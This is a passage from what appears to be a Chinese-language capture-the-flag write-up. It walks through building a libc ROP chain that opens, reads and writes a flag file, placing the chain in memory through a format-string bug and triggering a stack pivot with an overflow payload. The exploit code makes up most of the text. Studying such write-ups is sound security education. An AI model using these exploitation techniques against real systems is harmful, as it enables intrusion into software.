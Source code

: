 #### 創建 ROP Chain

這裡就比較一般了，透過 `ROPgadget` 從 libc 中搜出需要的 Gadgets 後串成 `open`, `read`, `write`：

```python
# ROP Gadgets
POP_RDX_RBX = LIBC_BASE + 0x162866
POP_RDI = LIBC_BASE + 0x26b72
POP_RAX = LIBC_BASE + 0x4a550
POP_RSI = LIBC_BASE + 0x27529
SYSCALL_RET = LIBC_BASE + 0x66229
STACK_PIVOT_RET = LIBC_BASE + 0x5aa48
FINAL_STACK_PIVOT = GLOBAL_VAR_POS + 0x50

rops = [
    FINAL_STACK_PIVOT,
    # OPEN
    POP_RAX, 2,
    POP_RDI, GLOBAL_VAR_POS,
    POP_RSI, 0,
    POP_RDX_RBX, 0, 0,
    SYSCALL_RET,

    # READ
    POP_RAX, 0,
    POP_RDI, 3,
    POP_RSI, GLOBAL_VAR_POS,
    POP_RDX_RBX, FLAG_LENGTH, 0,
    SYSCALL_RET,

    # Write
    POP_RAX, 1,
    POP_RDI, 1,
    POP_RSI, GLOBAL_VAR_POS,
    POP_RDX_RBX, FLAG_LENGTH, 0,
    SYSCALL_RET
]
```

接著透過 Format String 的 Vuln 就可以一路順順的從 `global + 0x50` 的位置開始往下寫，當作接下來的 Stack 使用：

```python
for i in range(len(rops)):
    format_str_write_addr(FINAL_STACK_PIVOT + i * 8, rops[i])
```

#### Stack Pivoting and Invoking the Chain

因為這題的 Overflow 太好操控了，所以以下這個 Payload 就可以一次把需要的 Gadgets 寫到 Return 的位置後執行：

```python
payload = flat(
    0, 0, 0, 0)
payload += p32(0) + p32(0x1)  # cnt set to 1
payload += flat(
    0,
    FINAL_STACK_PIVOT,
    STACK_PIVOT_RET
)
send_cmd2srv("local", "read", payload)
send_cmd2srv("global", "read", (FLAG_PATH+"\0").encode())
```
